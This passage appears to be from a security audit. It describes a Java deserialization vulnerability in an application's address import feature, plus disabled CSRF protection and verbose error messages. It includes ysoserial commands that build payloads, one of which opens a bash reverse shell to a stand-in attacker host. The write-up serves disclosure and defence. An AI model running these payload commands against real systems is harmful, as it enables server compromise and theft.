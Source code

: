2. **Malicious Payload Preparation:**
   - Create a malicious Java serialized object using tools like [ysoserial](https://github.com/frohoff/ysoserial)
   - The payload leverages gadget chains available in the application's classpath (Commons Collections, etc.)
   - Example command: `java -jar ysoserial.jar CommonsCollections2 "touch /tmp/pwned" > payload.ser`

3. **Attack Process:**
   - Upload the malicious serialized payload through the address import interface
   - Upon deserialization, the application executes the embedded command
   - The code executes with the privileges of the application server

4. **Example Payload Generation:**
   ```bash
   # Generate payload that executes 'touch /tmp/pwned' when deserialized
   java -jar ysoserial.jar CommonsCollections2 "touch /tmp/pwned" > payload.ser
   
   # Generate reverse shell payload
   java -jar ysoserial.jar CommonsCollections2 "bash -i >& /dev/tcp/attacker.com/4444 0>&1" > payload.ser
   ```

**Attack Scenarios:**
- **Remote Code Execution:** Execute arbitrary commands on the application server
- **Data Theft:** Access sensitive application data, configuration files, and credentials
- **Persistence:** Install backdoors or create privileged accounts
- **Lateral Movement:** Use compromised server as pivot point for further attacks

**Impact:**
- Complete server compromise with arbitrary command execution
- Access to all application data and internal resources
- Potential privilege escalation depending on application permissions
- Persistence via backdoors or added user accounts

---

## 🛡️ Additional Security Issues

### Cross-Site Request Forgery (CSRF)
- **Location:** API endpoints
- **Issue:** CSRF protection disabled for API endpoints
- **Impact:** Unauthorized actions can be performed on behalf of authenticated users

### Information Disclosure
- **Location:** Error messages and debug output
- **Issue:** Detailed error messages reveal system internals and file paths
- **Impact:** Assists attackers in reconnaissance and exploitation

